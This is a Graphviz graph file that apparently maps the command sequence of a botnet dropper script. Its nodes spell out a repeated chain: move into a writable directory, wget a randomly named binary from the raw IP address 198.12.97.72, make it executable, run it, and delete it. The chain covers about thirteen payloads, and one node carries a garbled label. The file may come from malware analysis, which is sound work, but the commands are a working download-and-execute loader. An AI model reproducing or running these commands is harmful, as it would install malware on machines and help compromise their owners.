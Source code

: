 digraph {
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 10 [label="||,"];
10 [label="wget http://198.12.97.72/bdsjouvbsdovbodsbvobdsv "];
10 -> 12 [label=";,"];
12 [label="chmod +x bdsjouvbsdovbodsbvobdsv "];
12 -> 14 [label=";,"];
14 [label="./bdsjouvbsdovbodsbvobdsv "];
14 -> 16 [label=";,"];
16 [label="rm -rf bdsjouvbsdovbodsbvobdsv "];
16 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 28 [label="||,"];
28 [label="wget http://198.12.97.72/dpksvbnousdbvodsbuvdsv "];
28 -> 30 [label=";,"];
30 [label="chmod +x dpksvbnousdbvodsbuvdsv "];
30 -> 32 [label=";,"];
32 [label="./dpksvbnousdbvodsbuvdsv "];
32 -> 34 [label=";,"];
34 [label="rm -rf dpksvbnousdbvodsbuvdsv "];
34 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 46 [label="||,"];
46 [label="wget http://198.12.97.72/soidbvouibsdvuobdsvuosdbhvou "];
46 -> 48 [label=";,"];
48 [label="chmod +x soidbvouibsdvuobdsvuosdbhvou "];
48 -> 50 [label=";,"];
50 [label="./soidbvouibsdvuobdsvuosdbhvou "];
50 -> 52 [label=";,"];
52 [label="rm -rf soidbvouibsdvuobdsvuosdbhvou "];
52 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 64 [label="||,"];
64 [label="wget http://198.12.97.72/sojdbvuodbsvoubdvo "];
64 -> 66 [label=";,"];
66 [label="chmod +x sojdbvuodbsvoubdvo "];
66 -> 68 [label=";,"];
68 [label="./sojdbvuodbsvoubdvo "];
68 -> 70 [label=";,"];
70 [label="rm -rf sojdbvuodbsvoubdvo "];
70 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 82 [label="||,"];
82 [label="wget http://198.12.97.72/sdpvbnludsivbdsuvb "];
82 -> 84 [label=";,"];
84 [label="chmod +x sdpvbnludsivbdsuvb "];
84 -> 86 [label=";,"];
86 [label="./sdpvbnludsivbdsuvb "];
86 -> 88 [label=";,"];
88 [label="rm -rf sdpvbnludsivbdsuvb "];
88 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 100 [label="||,"];
100 [label="wget http://198.12.97.72/spikdnvousdbvoubdvbdsvdobvobdvb "];
100 -> 102 [label=";,"];
102 [label="chmod +x spikdnvousdbvoubdvbdsvdobvobdvb "];
102 -> 104 [label=";,"];
104 [label="./spikdnvousdbvoubdvbdsvdobvobdvb "];
104 -> 106 [label=";,"];
106 [label="rm -rf spikdnvousdbvoubdvbdsvdobvobdvb "];
106 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 118 [label="||,"];
118 [label="wget http://198.12.97.72/psikdbvsiobdvodvbdsbv "];
118 -> 120 [label=";,"];
120 [label="chmod +x psikdbvsiobdvodvbdsbv "];
120 -> 122 [label=";,"];
122 [label="./psikdbvsiobdvodvbdsbv "];
122 -> 124 [label=";,"];
124 [label="rm -rf psikdbvsiobdvodvbdsbv "];
124 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 136 [label="||,"];
136 [label="wget http://198.12.97.72/jsdbviubdvibdvudsbvodsubvbv "];
136 -> 138 [label=";,"];
138 [label="chmod +x jsdbviubdvibdvudsbvodsubvbv "];
138 -> 140 [label=";,"];
140 [label="./jsdbviubdvibdvudsbvodsubvbv "];
140 -> 142 [label=";,"];
142 [label="rm -rf jsdbviubdvibdvudsbvodsubvbv "];
142 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 154 [label="||,"];
154 [label="wget http://198.12.97.72/dovnolsdbvuodbvdsbvodsbvodbvubdvosuvb "];
154 -> 156 [label=";,"];
156 [label="chmod +x dovnolsdbvuodbvdsbvodsbvodbvubdvosuvb "];
156 -> 158 [label=";,"];
158 [label="./dovnolsdbvuodbvdsbvodsbvodbvubdvosuvb "];
158 -> 160 [label=";,"];
160 [label="rm -rf dovnolsdbvuodbvdsbvodsbvodbvubdvosuvb "];
160 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 172 [label="||,"];
172 [label="wget http://198.12.97.72/udbv "];
172 -> 186 [label=";,"];
186 [label="oudsbvodbvodbvsdbvoubdovbdbvdbvpbdsvpdsvb "];
186 -> 176 [label=";,"];
176 [label="chmod +x udbv "];
176 -> 186 [label=";,"];
186 [label="oudsbvodbvodbvsdbvoubdovbdbvdbvpbdsvpdsvb "];
186 -> 180 [label=";,"];
180 [label="./udbv "];
180 -> 186 [label=";,"];
186 [label="oudsbvodbvodbvsdbvoubdovbdbvdbvpbdsvpdsvb "];
186 -> 184 [label=";,"];
184 [label="rm -rf udbv "];
184 -> 186 [label=";,"];
186 [label="oudsbvodbvodbvsdbvoubdovbdbvdbvpbdsvpdsvb "];
186 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 198 [label="||,"];
198 [label="wget http://198.12.97.72/dnvodsinvpidvnidpsvnpdsnvpindpvnvin "];
198 -> 200 [label=";,"];
200 [label="chmod +x dnvodsinvpidvnidpsvnpdsnvpindpvnvin "];
200 -> 202 [label=";,"];
202 [label="./dnvodsinvpidvnidpsvnpdsnvpindpvnvin "];
202 -> 204 [label=";,"];
204 [label="rm -rf dnvodsinvpidvnidpsvnpdsnvpindpvnvin "];
204 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 216 [label="||,"];
216 [label="wget http://198.12.97.72/pdsvboudsbvodbvdbvodbvbdsv "];
216 -> 218 [label=";,"];
218 [label="chmod +x pdsvboudsbvodbvdbvodbvbdsv "];
218 -> 220 [label=";,"];
220 [label="./pdsvboudsbvodbvdbvodbvbdsv "];
220 -> 222 [label=";,"];
222 [label="rm -rf pdsvboudsbvodbvdbvodbvbdsv "];
222 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 234 [label="||,"];
234 [label="wget http://198.12.97.72/pdknvidsvnbdsnvdinvipdnvpdinv "];
234 -> 236 [label=";,"];
236 [label="chmod +x pdknvidsvnbdsnvdinvipdnvpdinv "];
236 -> 238 [label=";,"];
238 [label="./pdknvidsvnbdsnvdinvipdnvpdinv "];
238 -> 239 [label=";,"];
}
